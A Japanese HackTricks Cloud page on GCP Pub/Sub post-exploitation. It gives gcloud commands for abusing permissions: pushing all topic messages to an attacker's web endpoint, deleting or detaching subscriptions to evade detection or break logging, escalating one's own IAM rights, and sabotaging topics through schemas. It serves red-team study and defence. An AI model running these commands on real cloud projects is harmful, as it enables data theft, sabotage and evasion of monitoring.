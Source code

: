 # GCP - Pub/Subポストエクスプロイテーション

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[NFTs](https://opensea.io/collection/the-peass-family)のコレクションを見る
- 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする
- **ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する**

</details>

## Pub/Sub

Pub/Subに関する詳細情報は、次のページを参照してください：

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

トピックにメッセージを公開し、**予期しないデータを送信**して予期しない機能をトリガーしたり、脆弱性を悪用したりするのに役立ちます。
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

検出を避けるために、メッセージを受信しないようにサブスクリプションを切り離すのに便利です。
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

検出を回避するために、購読がメッセージを受信しないようにするのに役立ちます。\
トピックを削除することができ、それに購読がアタッチされていても可能です。
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

この権限を使用して、`--clear-schema-settings`、`--message-retention-duration`、`--message-storage-policy-allowed-regions`、`--schema`、`--schema-project`、`--topic-encryption-key`などのトピックの設定を更新して中断させます。

### `pubsub.topics.setIamPolicy`

自分自身に前述のいずれかの攻撃を実行する権限を付与します。

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

ウェブサーバーですべてのメッセージを取得します：

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

サブスクリプションを作成し、それを使用して**メッセージを取得**します：
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**サブスクリプションを削除**すると、ログ処理システムなどを妨害するのに役立つかもしれません。
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### &#x20;`pubsub.subscriptions.update`

この権限を使用して、メッセージがアクセスできる場所（URL、Big Query テーブル、Bucket）に保存されるように設定を更新するか、単に中断させます。

### `pubsub.subscriptions.setIamPolicy`

以前にコメントされた攻撃のいずれかを実行するために必要な権限を自分に付与します。

### `pubsub.schemas.delete`

スキーマを削除して、スキーマに準拠しないメッセージを送信できるようにします。
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

スキーマをトピックにアタッチして、メッセージがそれを満たさないようにし、その結果トピックが妨害されるようにします。\
スキーマが存在しない場合は、作成する必要があるかもしれません。

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.setIamPolicy`

以前にコメントされた攻撃を実行するために必要な権限を自分に付与します。

### `pubsub.snapshots.create`,  `pubsub.snapshots.seek`

これにより、未確認のメッセージのスナップショットが作成され、それらがサブスクリプションに戻されます。攻撃者にはあまり役立ちませんが、以下に示します：
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong>を使用して、ゼロからヒーローまでAWSハッキングを学びましょう！</summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手してください
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをご覧ください
- 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)を**フォロー**してください。
- **HackTricks**および**HackTricks Cloud**のgithubリポジトリにPRを提出して、あなたのハッキングテクニックを共有してください。

</details>
